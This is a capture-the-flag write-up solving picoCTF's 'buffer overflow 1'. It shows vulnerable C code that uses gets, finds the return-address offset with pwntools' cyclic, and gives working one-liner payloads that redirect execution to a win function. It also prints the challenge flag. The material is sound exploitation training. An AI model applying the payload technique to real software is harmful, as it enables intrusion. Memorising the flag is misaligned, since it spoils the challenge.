 # buffer overflow 1
Points: 200

## Category
Binary Exploitation

## Question
>Okay now you're cooking! This time can you overflow the buffer and return to the flag function in this program? You can find it in /problems/buffer-overflow-1_3_af8f83fb19a7e2c98e28e325e4cacf78 on the shell server. Source. 

### Hint
>This time you're actually going to have to control that return address!
>
>Make sure you consider Big Endian vs Little Endian.

## Solution
Before looking at the source code, we can run the program first.

```
$ ./vuln 
Please enter your string: 
AAAA
Okay, time to return... Fingers Crossed... Jumping to 0x80486b3
```

Looks like it takes in an input, and jumps to an address. Let's look at the source code now.

```c
// Imports here...
#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
	char buf[FLAGSIZE];
	FILE *f = fopen("flag.txt","r");
	// Reading flag file
	printf(buf);
}

void vuln(){
	char buf[BUFSIZE];
	gets(buf);

	printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){
	// Unimportant stuff
	puts("Please enter your string: ");
	vuln();
	return 0;
}
```

We can see that the address that it shows us is the return address, which should be the address of _main_. If we do a buffer overflow, we can take control of the return address, and let the program jump to wherever we want.

In this case, we would like to jump to the _win_ function, which prints out the flag.

Let's try spamming the program again to see if our hunch is correct.

```
$ ./vuln 
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Okay, time to return... Fingers Crossed... Jumping to 0x41414141
Segmentation fault
```

The return address has been overwritten to _0x41414141_, which is the hex value of _A_. As long as we can find the correct amount of padding, we can control the where the return pointer returns to.

We can use the [De Bruijn sequence](https://en.wikipedia.org/wiki/De_Bruijn_sequence), which will find the padding we need. We will use _pwntools_.

```python
>>> from pwn import *
>>> cyclic(100)
'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
```

We can now feed that string into the program and see what address the program jumps to.

```
$ ./vuln 
Please enter your string: 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
Okay, time to return... Fingers Crossed... Jumping to 0x6161616c
Segmentation fault
```

Ok, it jumps to _0x6161616c_. We can use `cyclic_find()` to find the offset. First we convert the hex back into ASCII. Remember that this is in little endian format. `p32()` just converts the hex back into ASCII in little endian format.

```python
>>> from pwn import *
>>> cyclic_find(p32(0x6161616c))
44
```

Now we know the amount of padding required. Let's test it again, with 44 'A's, and another 4 'B's. We should expect the address to show _0x41414141_.

```
$ ./vuln 
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
Okay, time to return... Fingers Crossed... Jumping to 0x42424242
Segmentation fault
```

Just as we expected. All that's left to do is to replace _BBBB_ with the ASCII values that corresponds to the address of the _win_ function.


```python
>>> from pwn import *
>>> vuln = ELF('./vuln')
[*] '/root/Desktop/picoCTF/Binary Exploitation/buffer overflow 1/solution/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
>>> p32(vuln.symbols['win']) # Get address of win function
'\xcb\x85\x04\x08'
>>> 'A' * 44 + '\xcb\x85\x04\x08'
'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xcb\x85\x04\x08'
```

Of course, we cannot type _\xcb\x85\x04\x08_ in ASCII format, so all we have to do is have Python output this string, and pipe it into the program _vuln_.

```
$ python -c "from pwn import *; print 'A' * 44 + '\xcb\x85\x04\x08'" | ./vuln 
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80485cb
picoCTF{sample_flag}
Segmentation fault
```

Great! It works locally, all we have to do now is run it on the web shell.

```
$ cd /problems/buffer-overflow-1_3_af8f83fb19a7e2c98e28e325e4cacf78
$ python -c "from pwn import *; print 'A' * 44 + '\xcb\x85\x04\x08'" | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80485cb
picoCTF{addr3ss3s_ar3_3asy65489706}Segmentation fault
```

And we get the flag!

Working solution [solve.py](solution/solve.py)

### Flag
`picoCTF{addr3ss3s_ar3_3asy65489706}`


附带参考资料https://tcode2k16.github.io/blog/posts/picoctf-2018-writeup/binary-exploitation/#buffer-overflow-0
```
python2 -c "from pwn import *;print(44*'A'+(p32(0x080485cb)))"|./vuln
```
